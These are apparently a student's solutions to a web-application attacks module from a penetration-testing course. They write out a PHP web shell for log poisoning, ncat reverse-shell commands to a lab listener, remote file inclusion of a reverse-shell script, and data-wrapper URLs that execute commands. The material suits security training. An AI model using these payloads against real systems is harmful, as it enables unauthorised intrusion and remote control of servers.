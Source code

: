 = Solutions to exercises from Module 9: Web App Attacks

== 9.4.1.3

2. `INSERT INTO webappdb.users(username, password) VALUES('me', 'm2')`

== 9.4.2.6

2. The XSS vulnerability could be used to run a script on every machine that loads the site, for cryptomining. If the website allowed payments, scripts could be injected to read credit card data as it is input to the site.
3. The exploit attacks the clients of the site, since it requires the client to load the site to expose their session cookie.

== 9.4.4.5

2. We poison the logs with the line `<?php echo '<pre>' . shell_exec(base64_decode($_GET['cmd'])) . '</pre>';?>`
Then, to get a shell, we just submit the string of the output of the command `echo -n "ncat 192.168.119.224 4444 -e cmd.exe" | base64` as the `cmd` parameter

== 9.4.4.7

1. We use the same technique mentioned above, by exposing a file containing the above on a python HTTP server. 
2. The only difference here is to name the exposed file `current_menu.php`.
3. We start by getting the reverse shell script and renaming it `cp /usr/share/webshells/php/php_reverse_shell.php current_menu.php`.
Then, we replace the IP address, the port number, and the shell command to `cmd`, and start a python HTTP server.
Finally, we reload the URL with the remote path as the `file` parameter, and the script connects to our listener.

== 9.4.4.10

1. We use a data wrapper to retrieve the `ipconfig` of the server using
`http://192.168.224.10/menu.php?file=data:text/plain,%3C?php%20echo%20%27%3Cpre%3E%27%20.%20shell_exec($_GET[%27cmd%27])%20.%20%27%3C/pre%3E%27;?%3E&cmd=ipconfig`
2. We use the above to supply a cmd that opens a reverse shell back to our machine, using
`http://192.168.224.10/menu.php?file=data:text/plain,%3C?php%20echo%20%27%3Cpre%3E%27%20.%20shell_exec($_GET[%27cmd%27])%20.%20%27%3C/pre%3E%27;?%3E&cmd=ncat%20192.168.119.224%204444%20-e%20cmd.exe`

==
